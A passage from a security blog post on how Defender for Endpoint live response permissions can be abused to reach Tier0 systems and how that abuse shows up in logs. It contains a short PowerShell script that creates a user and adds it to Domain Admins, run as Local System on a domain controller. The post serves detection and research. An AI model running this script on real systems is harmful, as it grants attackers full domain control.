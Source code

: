 _App registration with assigned permission has similar Live Response and Library access as “Security Admin”._

## How can it be abused to gain privileged access?

I like to describe two attack scenario where privileged user or workload identity with “Advanced Live Response” permissions can gain Control Plane (Tier0) access. They rely on the possibility to execute (unsigned) scripts and abusing the established security context of “Local System” privileges. All the following attack scenarios are general examples and should only give an impression how Tier0 devices (Domain Controllers, Privileged Access Workstations) could be affected. All of the given samples will work interactively in the command console (Portal UI) but also by using the API.

In addition you should considered also indirect privilege escalation paths by other privileged user and workload identities which are able to takeover accounts or groups with “Live Response” permissions.

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponseOverviewAbuse.png)(https://www.cloud-architekt.net/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponseOverviewAbuse.png)

_Overview about related configurations and dependencies for establishing “Live Response Session” from the portal or by MDE API.

### Create Domain Admin Account on Active Directory Domain Controllers

In this case, a live response session will be established to on-premises server which is running “Active Directory Domain Services”. The following script (”Add-DomainAdmin.ps1”) has been uploaded to the library:

```powershell
Param(
    [Parameter(Mandatory=$False)]
    [string]$User = "DCAdmin",

    [Parameter(Mandatory=$False)]
    [Security.SecureString]$Password = ("D0mainAdm!n4U" | ConvertTo-SecureString -AsPlainText -Force)
)

New-LocalUser $User -Password $Password
net group "Domain Admins" $User /ADD /DOMAIN
```

The few lines of PowerShell script allows to create an AD user with a pre-defined password and add them to the “Domain Admins” group. The script can be executed remotely from the command console and shows the following result:

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponse5.png)

_Command console displays the result from the executed PowerShell script and used Net command_

Operations to create user account and add them to “Domain Admins” group will be executed by Local System (Computer Object) and will be shown in the event log:

![Untitled]({{ site.url }}{{ site.baseurl }}/assets/images/2023-03-19-abuse-detection-live-response-tier0/LiveResponse6.png)
